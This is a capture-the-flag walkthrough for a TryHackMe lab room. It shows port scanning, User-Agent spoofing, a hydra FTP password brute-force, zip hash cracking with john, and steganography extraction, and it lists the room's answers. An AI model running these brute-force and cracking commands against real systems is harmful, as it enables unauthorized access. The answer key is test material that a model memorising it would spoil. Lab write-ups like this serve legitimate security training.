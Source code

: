 https://tryhackme.com/room/agentsudoctf

## Task 1

no answer required

## Task 2

### How many open ports?

```
kali@kali:~/Downloads$ sudo masscan -e tun0 -p1-65535,U:1-65535 10.10.164.129 --rate=1000
[sudo] password for kali: 

Starting masscan 1.0.5 (http://bit.ly/14GZzcT) at 2020-07-26 15:04:13 GMT
 -- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [131070 ports/host]
Discovered open port 21/tcp on 10.10.164.129                                   
Discovered open port 80/tcp on 10.10.164.129                                   
Discovered open port 22/tcp on 10.10.164.129   
```
answer

```
3
```

### How you redirect yourself to a secret page?

we get this message after nagivating to the web page

```
Dear agents,

Use your own codename as user-agent to access the site.

From,
Agent R 
```

user-agent is an option we can set using curl

```
kali@kali:~$ curl -A "R" -L 10.10.206.40
What are you doing! Are you one of the 25 employees? If not, I going to report this incident
<!DocType html>
<html>
<head>
        <title>Annoucement</title>
</head>

<body>
<p>
        Dear agents,
        <br><br>
        Use your own <b>codename</b> as user-agent to access the site.
        <br><br>
        From,<br>
        Agent R
</p>
</body>
</html>
```

answer
```
user-agent
```

### What is the agent name?

we get this message when we set -A to "C"

```
kali@kali:~$ curl -A "C" -L 10.10.206.40
Attention chris, <br><br>

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak! <br><br>

From,<br>
Agent R 
```

answer
```
chris
```

## Task 3

### FTP password

lets crack chris' FTP password using hydra

```
kali@kali:~$ hydra -l chris -P /usr/share/wordlists/rockyou.txt 10.10.206.40 -t 4 ftp
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-07-27 00:10:39
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ftp://10.10.206.40:21/
[STATUS] 60.00 tries/min, 60 tries in 00:01h, 14344339 to do in 3984:33h, 4 active
[STATUS] 57.33 tries/min, 172 tries in 00:03h, 14344227 to do in 4169:51h, 4 active
[21][ftp] host: 10.10.206.40   login: chris   password: crystal
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-07-27 00:15:12

```

answer

```
crystal
```

### Zip file password

login to ftp with the creds above to download the files

there was an issue using ftp
```
kali@kali:~/Downloads/agents$ ftp 10.10.165.113 
Connected to 10.10.165.113.
220 (vsFTPd 3.0.3)
Name (10.10.165.113:kali): chris
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
500 Illegal PORT command.
ftp: bind: Address already in use
ftp> 
```

i used filezilla to download the files instead

```
cute-alien.jpg
cutie.png
To_agentJ.txt
```
the question metions a zip file password but we don't have a zip file here, lets check if there is a zip file hidden in one of the images

```
kali@kali:~/Downloads$ binwalk cutie.png

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
869           0x365           Zlib compressed data, best compression
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820         0x8804          End of Zip archive, footer length: 22

kali@kali:~/Downloads$ binwalk cutie.png -e

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
869           0x365           Zlib compressed data, best compression
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820         0x8804          End of Zip archive, footer length: 22

kali@kali:~/Downloads$ ls
```

we find a zip file and extract it from the image

crack the password using john

```
kali@kali:~/Downloads/_cutie.png.extracted$ /usr/sbin/zip2john 8702.zip > output
ver 81.9 8702.zip/To_agentR.txt is not encrypted, or stored with non-handled compression type
kali@kali:~/Downloads/_cutie.png.extracted$ ls
365  365.zlib  8702.zip  output  To_agentR.txt
kali@kali:~/Downloads/_cutie.png.extracted$ sudo john output
Using default input encoding: UTF-8
Loaded 1 password hash (ZIP, WinZip [PBKDF2-SHA1 256/256 AVX2 8x])
Will run 2 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Warning: Only 10 candidates buffered for the current salt, minimum 16 needed for performance.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
alien            (8702.zip/To_agentR.txt)
1g 0:00:01:43 DONE 2/3 (2020-07-27 02:44) 0.009676g/s 425.6p/s 425.6c/s 425.6C/s 123456..Peter
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

answer 

```
alien
```

### steg password

unzip the file to get the password

```
QXJlYTUx
```

this password doesn't work, but it looks like base64, lets decode it

answer

```
Area51
```


### Who is the other agent (in full name)?

now extract the message with steghide
```
kali@kali:~/Downloads$ steghide extract -sf cute-alien.jpg 
Enter passphrase: 
wrote extracted data to "message.txt".
kali@kali:~/Downloads$ ls
cute-alien.jpg  cute-alien.jpg.out  cutie.png  _cutie.png.extracted  message.txt  pass.txt  To_agentJ.txt
kali@kali:~/Downloads$ cat message.txt
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```

answer
```
james
```

### SSH password

answer 
```
hackerrules!
```
